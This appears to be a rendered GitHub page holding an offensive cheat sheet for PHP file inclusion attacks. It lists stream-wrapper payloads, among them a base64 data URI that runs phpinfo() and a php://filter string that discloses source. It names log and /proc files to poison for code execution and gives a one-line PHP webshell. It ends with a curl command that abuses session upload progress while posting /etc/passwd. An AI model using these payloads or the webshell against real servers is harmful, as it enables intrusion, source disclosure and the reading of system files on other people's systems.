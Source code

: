 * LFI/RFI wrappers
    + input
    + data `data://text/plain;base64,command | data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`
    + filter `php://filter/convert.base64-encode/resource=index.php`
    + file
    + zip `zip://zipfile#php_file.php`
    + phar
    + expect
    + glob
    + [iconv](http://gynvael.coldwind.pl/?lang=en&id=671)
    + crypto
    + gopher
    + fd
    + telnet
    + ftp
    + tftp
    + nntp
    + jar
    + scp
    + ssh
    + ssh2
    + ldap
    + dict
    + ogg

* LFI to RCE
    + Using file upload forms/functions
    + Wrappers
    + Files
        + /proc/self/environ
        + /proc/self/fd
    + Log files with controllable input:
        + /var/log/apache2/access.log
        + /var/log/apache2/error.log
        + /var/log/vsftpd.log
        + /var/log/sshd.log
        + /var/log/mail
        + /var/lib/nginx/cache
    + PHPInfo script
    + php sessions
    + Endings:
        + null byte
        + truncation
    + [tmp files with self inclusion](https://dustri.org/b/from-lfi-to-rce-in-php.html)

* common files
    + phpunit.xml.dst (in LAMP)
* webshell using POST files
    ```<? `. /*/*J;` // will execute when there is /tmp/*J file with your POST data```
* [Inject SESSION data](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)
    ```curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'  -F 'file=@/etc/passwd'```
